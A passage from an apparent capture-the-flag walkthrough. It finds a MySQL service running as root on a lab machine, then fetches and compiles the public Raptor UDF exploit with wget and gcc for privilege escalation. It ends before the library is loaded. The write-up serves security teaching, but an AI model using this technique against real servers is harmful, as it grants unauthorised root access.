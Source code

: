     
    svc@noter:/etc/systemd$ find . -name '*.service' | grep sql
    ./system/multi-user.target.wants/mysqlcheck.service
    ./system/multi-user.target.wants/mysql-start.service
    ./system/mysqlcheck.service
    ./system/mysql-start.service
    

`mysql-start.service` shows that the service is running as root:

    
    
    [Unit]
    Description=MySQL service
    
    [Service]
    ExecStart=/usr/sbin/mysqld
    User=root
    Group=root
    
    [Install]
    WantedBy=multi-user.target
    

### Raptor

#### Stage Exploit

There’s a bunch of [posts](https://medium.com/r3d-buck3t/privilege-escalation-
with-mysql-user-defined-functions-996ef7d5ceaf) out there about how to exploit
MySQL running as root using some code referred to as Raptor. The idea is that
I’ll write a shared library that runs commands from SQL into the plugins
directory, and then add a command to access it and get execution as root.

I’ll need to get a copy of the [exploit file](https://www.exploit-
db.com/raw/1518) and compile it using the instructions in the comments:

    
    
    oxdf@hacky$ wget https://www.exploit-db.com/raw/1518 -O raptor_udf2.c
    --2022-03-30 15:53:51--  https://www.exploit-db.com/raw/1518
    Resolving www.exploit-db.com (www.exploit-db.com)... 192.124.249.13
    Connecting to www.exploit-db.com (www.exploit-db.com)|192.124.249.13|:443... connected.
    HTTP request sent, awaiting response... 200 OK
    Length: 3378 (3.3K) [text/plain]
    Saving to: ‘raptor_udf2.c’
    
    raptor_udf2.c                                        100%[=====================================================================================================================>]   3.30K  --.-KB/s    in 0s      
    
    2022-03-30 15:53:51 (1.53 GB/s) - ‘raptor_udf2.c’ saved [3378/3378]
    oxdf@hacky$ gcc -g -c raptor_udf2.c
    oxdf@hacky$ gcc -g -shared -Wl,-soname,raptor_udf2.so -o raptor_udf2.so raptor_udf2.o -lc
    

Now I’ll upload that to Noter into `/dev/shm`.

#### Load Library
